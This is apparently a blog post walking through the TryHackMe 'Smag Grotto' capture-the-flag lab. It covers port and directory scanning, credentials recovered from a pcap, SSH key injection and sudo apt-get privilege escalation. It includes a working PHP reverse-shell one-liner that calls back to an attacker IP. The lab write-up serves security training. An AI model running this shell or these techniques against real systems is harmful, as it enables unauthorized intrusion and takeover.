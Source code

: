 ```yaml
---
layout: post
title: "SMAG-GROTTO | THM "
date: 2021-11-20 00:46:00 -0000
categories: CTF THM
---
```


<h3>Executive Summary</h3> 

The server has hardcoded details present within a public facing email chain. Those credentials can be abused to get access to an admin portal and from there a reverse shell can be initiated. Once on the box itself, the ssh key infastructure is vulnerable to injection. An attacker can inject his own ssh key pair and move laterally from there. Once on as a regular user, credentials can be extracted from easily accessible log files. User can also escalate to root through sudo abuse of the apt-get program. 


<h3>Technical Details</h3>
<h2>Enumeration</h2>

First, lets see what is running on the box: 

nmap 10.10.6.75
-Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-20 01:12 EST
-Nmap scan report for 10.10.6.75
-Host is up (0.085s latency).
-Not shown: 998 closed tcp ports (conn-refused)
-PORT   STATE SERVICE
-22/tcp open  ssh
-80/tcp open  http
-
-Nmap done: 1 IP address (1 host up) scanned in 1.44 seconds

Lets navigate to the webserver that is running. Not much is here so lets enumerate the webserver: 

gobuster dir -w /SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u 10.10.6.75 -x txt,php -t64 
//===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
//===============================================================
[+] Url:                     http://10.10.6.75
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /home/toad/bin/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,php
[+] Timeout:                 10s
//===============================================================
2021/11/20 01:15:24 Starting gobuster in directory enumeration mode
//===============================================================
/mail                 (Status: 301) [Size: 307] [--> http://10.10.6.75/mail/]
/index.php            (Status: 200) [Size: 402]

/mail is interesting. Upon investigation, there is a .pcap file discussed on this public facing webserver. There is a specific comment to use wget to download the file. If we download that file with wget and open with Wireshark, it is a short file with some TCP connections. Right clicking and selecting follow TCP stream will reveal some credentials being transmitted in clear text.

nice. There is one wrinkle, the POST request for this file is aimed at the hostname development.smag.thm. So, we need to tie that hostname to the IP address of the box. We can do that by editing our /etc/hosts file. 

10.10.6.75   development.smag.thm

Then we can navigate to the endpoint that was found in the PCAP file. Upon navigating there we find a login screen. 

<h2>Initial Foothold</h2>

When we login, there is a prompt that will let us send a command. Perfect for a reverse shell. A simple oneliner shell command from the Pentest Monkey will work. 

php -r '$sock=fsockopen("10.6.10.177",9999);exec("/bin/sh -i <&3 >&3 2>&3");'

<h2>Lateral Movement</h2>

id -> www and we can't read /home/jake/user.txt. After some basic linux enumeration, we find an interesting crontab. The public key is being regularly updated to the user's ssh directory. We can inject our own key pair after running ssh-keygen -o on our own box. Then wait. Then we can ssh with -i {path_to_key} jake@10.6.10.177

<h2>Priv Esc </h2>

Now we are in as Jake. Priv Esc isn't needed to read the root flag, you can just read the vim history. Run the classic sudo -l and we find a viable path to escalation through sudo apt-get. Follow the instructions on GTFO bins to acheive this. 



Sparse write up will be more detailed in future. 
